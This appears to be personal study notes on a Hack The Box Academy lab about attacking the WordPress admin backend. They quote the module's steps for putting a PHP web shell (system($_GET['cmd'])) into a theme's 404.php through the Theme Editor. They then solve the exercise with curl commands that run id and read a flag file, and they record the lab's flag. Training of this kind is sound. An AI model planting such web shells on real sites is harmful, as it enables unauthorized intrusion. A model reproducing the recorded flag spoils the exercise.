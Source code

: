 ```yaml
---
sticker: emoji//1f43c
---
```

## Attacking the WordPress Backend

With administrative access to WordPress, we can modify the PHP source code to execute system commands. To perform this attack, log in to WordPress with the administrator credentials, which should redirect us to the admin panel. Click on `Appearance` on the side panel and select `Theme Editor`. This page will allow us to edit the PHP source code directly. We should select an inactive theme in order to avoid corrupting the main theme.

#### Theme Editor

![image](https://academy.hackthebox.com/storage/modules/17/Theme-Editor.png)

We can see that the active theme is `Transportex` so an unused theme such as `Twenty Seventeen` should be chosen instead.

#### Selecting Theme

![image](https://academy.hackthebox.com/storage/modules/17/Twenty-Seventeen.png)

Choose a theme and click on `Select`. Next, choose a non-critical file such as `404.php` to modify and add a web shell.

#### Twenty Seventeen Theme - 404.php

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

The above code should allow us to execute commands via the GET parameter `cmd`. In this example, we modified the source code of the `404.php` page and added a new function called `system()`. This function will allow us to directly execute operating system commands by sending a GET request and appending the `cmd` parameter to the end of the URL after a question mark `?` and specifying an operating system command. The modified URL should look like this `404.php?cmd=id`.

We can validate that we have achieved RCE by entering the URL into the web browser or issuing the `cURL` request below.

#### RCE

```shell-session
smoothment@htb[/htb]$ curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"

uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)
<SNIP>
```

# Question
---
![](cybersecurity/images/Pasted%2520image%252020250220134711.png)

Let's save the file with these contents:

```php
<?php

system($_GET['cmd']);
```

Now, let's edit the theme and upload the shell:

![](cybersecurity/images/Pasted%2520image%252020250220135856.png)

Once we've edit the `404.php` file, let's save it, and use curl:

```
curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"

uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)

```


We can now read the contents under `/home/wp-user/flag.txt`:

```
curl -X GET "http://94.237.53.112:46761/wp-content/themes/twentyseventeen/404.php?cmd=cat+/home/wp-user/flag.txt"

HTB{rc3_By_d3s1gn}
```

Flag is:

```
HTB{rc3_By_d3s1gn}
```